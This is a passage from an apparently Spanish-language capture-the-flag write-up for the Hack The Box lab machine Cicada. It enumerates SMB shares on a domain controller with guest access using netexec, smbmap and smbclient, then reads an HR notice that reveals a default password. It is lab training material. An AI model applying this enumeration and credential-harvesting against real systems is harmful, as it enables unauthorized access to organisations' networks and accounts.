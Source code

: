 ```shell
netexec smb 10.10.11.35 -u 'guest' -p '' --shares
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\guest: 
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV                             
SMB         10.10.11.35     445    CICADA-DC        HR              READ            
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON                        Logon server share 
SMB         10.10.11.35     445    CICADA-DC        SYSVOL                          Logon server share 
```
Voy a listar que nos encontramos en el directorio HR en el que tengo permiso de lectura.

```shell
smbmap -H 10.10.11.35 -u 'guest' -p '' -r HR
IP: 10.10.11.35:445 Name: cicada.htb                Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        DEV                                                     NO ACCESS
        HR                                                      READ ONLY
        ./HR
        dr--r--r--                0 Fri Mar 15 02:26:17 2024    .
        dr--r--r--                0 Thu Mar 14 08:21:29 2024    ..
        fr--r--r--             1266 Wed Aug 28 13:31:48 2024    Notice from HR.txt
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        SYSVOL                                                  NO ACCESS       Logon server share
```

Podemos ver que nos encontramos con fichero que podemos ver `Notice from HR.txt` podemos ver este tipo de fichero 
que nos encontramos.
```shell
smbclient //10.10.11.35/HR -N               
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 08:29:09 2024
  ..                                  D        0  Thu Mar 14 08:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 13:31:48 2024

```
Nos traemos el fichero aa nuestro directorio local para ver si contiene ingormacion interesante.
```shell
cat Notice\ from\ HR.txt 

Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
```